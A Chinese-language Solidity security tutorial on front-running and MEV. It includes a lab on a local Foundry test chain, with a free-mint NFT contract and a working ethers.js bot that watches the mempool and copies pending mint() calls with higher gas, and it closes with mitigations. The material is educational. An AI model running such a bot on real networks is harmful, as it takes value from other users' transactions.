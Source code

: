 ```yaml
---
title: S11. 抢先交易
tags:
  - solidity
  - security
  - erc721
---
```


# WTF Solidity 合约安全: S11. 抢先交易

我最近在重新学 solidity，巩固一下细节，也写一个“WTF Solidity 极简入门”，供小白们使用（编程大佬可以另找教程），每周更新 1-3 讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

社区：[Discord](https://discord.wtf.academy)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在 github: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

这一讲，我们将介绍智能合约的抢先交易（Front-running，抢跑）。据统计，以太坊上的套利者通过三明治攻击（sandwich attack）[共获利$12亿](https://dune.com/chorus_one/ethereum-mev-data)。

## Front-running

### 传统抢跑
抢跑最初诞生于传统金融市场，是一场单纯未了利益的竞赛。在金融市场中，信息差催生了金融中介机构，他们可以通过最先了解某些行业信息并最先做出反应从而实现获利。这些攻击主要发生在股票市场交易和早期的域名注册。

2021 年 9 月，NFT 市场 OpenSea 的产品负责人 Nate Chastain，被发现通过抢先购买将在 OpenSea 首页展示的 NFT 获利。
他利用内幕信息来获得不公平的信息差，OpenSea 将要在首页推送哪些 NFT，然后在展出在首页前抢先买入，然后再在 NFT 登上首页后卖出。然而，一个有人通过将 NFT 交易时间戳与 OpenSea 上有问题的 NFT 的首页促销进行匹配，发现了这一非法行为，Nate 也被告上法院。

另一个传统抢跑的例子包括是在代币上[币安](https://www.wsj.com/articles/crypto-might-have-an-insider-trading-problem-11653084398?mod=hp_lista_pos4)/[coinbase](https://www.protocol.com/fintech/coinbase-crypto-insider-trading)等知名交易所之前，会有得知内幕消息的老鼠仓提前买入。在上币的公告发出后，币价会大幅上涨，这时抢跑者会卖出盈利。

### 链上抢跑

链上抢跑指的是搜索者或矿工通过调高`gas`或其他方法将自己的交易安插在其他交易之前，来攫取价值。在区块链中，矿工可以通过打包、排除或重新排序他们产生的区块中的交易来获得一定的利润，而`MEV`是衡量这种利润的指标。

在用户的交易被矿工打包进以太坊区块链之前，大部分交易会汇集到Mempool（交易内存池）中，矿工在这里寻找费用高的交易优先打包出块，实现利益最大化。通常来说，gas price越高的交易，越容易被打包。同时，一些`MEV`机器人也会搜索`mempool`中有利可图的交易。比如，一笔在去中心化交易所中滑点设置过高的`swap`交易可能会被三明治攻击：通过调整gas，套利者会在这笔交易之前插一个买单，再在之后发送一个卖单，并从中盈利。这等效于哄抬市价。

![](./img/S10-1.png)

## 抢跑实践

如果你学会了抢跑，你就算是入门的币圈科学家了。接下来，让我们实践一下，抢跑一笔铸造NFT的交易。我们将会用到的工具：
- `Foundry`的`anvil`工具搭建本地测试链，请提前安装好 [foundry](https://book.getfoundry.sh/getting-started/installation)。
- `remix`进行NFT合约的部署和铸造
- `etherjs`脚本监听`mempool`并进行抢跑。

**1. 启动Foundry本地测试链：** 在安装好 `foundry` 之后，在命令行输入 `anvil --chain-id 1234 -b 10` 搭建本地测试链，chain-id 为 1234，每 10 秒产出一个区块。搭建成功后，它会在显示一些测试账户的地址和私钥，每个账户有 10000 ETH。你可以使用它们进行测试。

![](./img/S11-2.png)

**2. 将Remix连接到测试链：** 打开 Remix 的部署页面，打开左上角的`Environment`下拉菜单，选`Foundry Provider`即可将 Remix 连接到测试链。

![](./img/S11-3.png)


**3. 部署NFT合约：** 在 Remix 上部署一个简单的 freemint（免费铸造）NFT合约。它有一个`mint()`，用于免费铸造NFT。

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
pragma solidity ^0.8.4;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// 我们尝试frontrun一笔Free mint交易
contract FreeMint is ERC721 {
    uint256 public totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // 铸造函数
    function mint() external {
        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

**4. 部署ethers.js抢跑脚本：** 简单来说，`frontrun.js`脚本监听了测试链`mempool`中的未决交易，筛选出调用了`mint()`的交易，然后复制它并调高`gas`进行抢跑。如果你不熟悉`ether.js`，可以阅读[WTF Ethers极简教程](https://github.com/WTFAcademy/WTF-Ethers)。

```js
// provider.on("pending", listener)
import { ethers, utils } from "ethers";

// 1. 创建provider
var url = "http://127.0.0.1:8545";
const provider = new ethers.providers.WebSocketProvider(url);
let network = provider.getNetwork()
network.then(res => console.log(`[${(new Date).toLocaleTimeString()}] 连接到 chain ID ${res.chainId}`));

// 2. 创建interface对象，用于解码交易详情。
const iface = new utils.Interface([
    "function mint() external",
])

// 3. 创建钱包，用于发送抢跑交易
const privateKey = '0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a'
const wallet = new ethers.Wallet(privateKey, provider)

const main = async () => {
    // 4. 监听pending的mint交易，获取交易详情，然后解码。
    console.log("\n4. 监听pending交易，获取txHash，并输出交易详情。")
    provider.on("pending", async (txHash) => {
        if (txHash) {
            // 获取tx详情
            let tx = await provider.getTransaction(txHash);
            if (tx) {
                // filter pendingTx.data
                if (tx.data.indexOf(iface.getSighash("mint")) !== -1 && tx.from != wallet.address ) {
                    // 打印txHash
                    console.log(`\n[${(new Date).toLocaleTimeString()}] 监听Pending交易: ${txHash} \r`);

                    // 打印解码的交易详情
                    let parsedTx = iface.parseTransaction(tx)
                    console.log("pending交易详情解码：")
                    console.log(parsedTx);
                    // Input data解码
                    console.log("raw transaction")
                    console.log(tx);

                    // 构建抢跑tx
                    const txFrontrun = {
                        to: tx.to,
                        value: tx.value,
                        maxPriorityFeePerGas: tx.maxPriorityFeePerGas * 1.2,
                        maxFeePerGas: tx.maxFeePerGas * 1.2,
                        gasLimit: tx.gasLimit * 2,
                        data: tx.data
                    }
                    // 发送抢跑交易
                    var txResponse = await wallet.sendTransaction(txFrontrun)
                    console.log(`正在frontrun交易`)
                    await txResponse.wait()
                    console.log(`frontrun 交易成功`)                
                }
            }
        }
    });

    provider._websocket.on("error", async () => {
        console.log(`Unable to connect to ${ep.subdomain} retrying in 3s...`);
        setTimeout(init, 3000);
      });

    provider._websocket.on("close", async (code) => {
        console.log(
            `Connection lost with code ${code}! Attempting reconnect in 3s...`
        );
        provider._websocket.terminate();
        setTimeout(init, 3000);
    });    
};

main()
```

**5. 调用`mint()`函数：** 在 Remix 的部署页面调用 Freemint 合约的`mint()` 函数，进行 NFT 铸造。

**6. 脚本监听到交易并进行抢跑** 我们可以在终端看到 `frontrun.js` 脚本成功监听到了交易，并进行了抢跑。如果你调用 NFT 合约的 `ownerOf()` 函数查看 `tokenId` 为 0 的持有者是抢跑脚本中的钱包地址，证明抢跑成功！。
![](./img/S11-4.png)

## 预防方法

抢先交易是以太坊等公链上普遍存在的问题。我们没法消除它，但是可以通过减少交易顺序或时间的重要性，减少被抢先交易的收益：

- 使用预提交方案(commit-reveal scheme)。
- 使用暗池，用户发出的交易将不进入公开的`mempool`，而是直接到矿工手里。例如 flashbots 和 TaiChi。

## 总结

这一讲，我们介绍了以太坊的抢先交易，也叫抢跑。这种起源于传统金融行业的攻击模式在区块链中更容易实施，因为所有的交易信息都是公开的。我们做了一个抢跑的时间：抢跑一笔铸造 NFT 的交易。当需要有类似的交易时，最好支持隐藏的内存池，或者实施批量拍卖等措施限制。它是以太坊等公链上普遍存在的问题，我们没法消除它，但是可以通过减少交易顺序或时间的重要性，减少被抢先交易的收益。
